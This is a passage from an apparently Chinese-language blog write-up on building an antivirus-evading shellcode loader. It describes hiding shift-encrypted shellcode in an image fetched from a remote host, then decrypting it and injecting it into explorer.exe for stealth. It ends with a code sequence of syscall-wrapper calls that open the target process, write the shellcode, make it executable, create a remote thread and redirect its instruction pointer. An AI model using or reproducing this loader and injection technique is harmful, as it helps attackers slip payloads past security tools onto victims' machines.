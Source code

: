                   ![]()

           

![]()

           

其中的c文件是实现了系统调用的寻址方法，而asm的汇编代码中是寻址表，头文件即我们调用的所有函数接口声明。

  

![]()

![]()

#  

 **0x0** **3**  
 **ShellLoader  
**

#  

# 加密shellcode  

这次项目使用的是分离免杀的方法，至于分离免杀就不作过多赘述了。通过python制作一个携带shellcode的图片，同时将shellcode进行简单的移位加密处理。

![]()

          

本项目实现的shellcode是将远端图片拉取后，进行解密。

![]()

           

然后为了提高隐蔽性，代码中遍历了进程名，并且尝试将shellcode注入名为“explore.exe”的进程中，当然这样的操作存在一点的风险，可能导致目标进程崩溃，但是笔者目前测试下来多个系统未出现该问题，仅win10偶尔出现过一次。

![]()

           

最后便是本次免杀的主角，通过调用SysWhisper生成的接口进行shellcode加载。

           

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    首先打开进程NTSTATUS status = VegexOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &oa, &cid);         申请内存VegexAllocateVirtualMemory(hProcess, &remoteAddr, 0, &sDataSize, MEM_COMMIT, PAGE_READWRITE);         将shellcode写入内存中VegexWriteVirtualMemory(hProcess, remoteAddr, pp, sizeof(pp), NULL);         修改内存可执行VegexProtectVirtualMemory(hProcess, &remoteAddr, &sDataSize, PAGE_EXECUTE_READ, &ulOldProtect);         创建远程线程HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteAddr, NULL, 0, NULL);         暂停主线程VegexSuspendThread(hThread, &previousSuspendCount);         获取主线程上下文VegexGetContextThread(hThread, &ctx);修改 EIP 寄存器的值为 shellcode 的地址ctx.Rip = (DWORD)remoteAddr;         设置线程上下文VegexSetContextThread(hThread, &ctx);   恢复主线程VegexResumeThread(hThread, &previousSuspendCount);
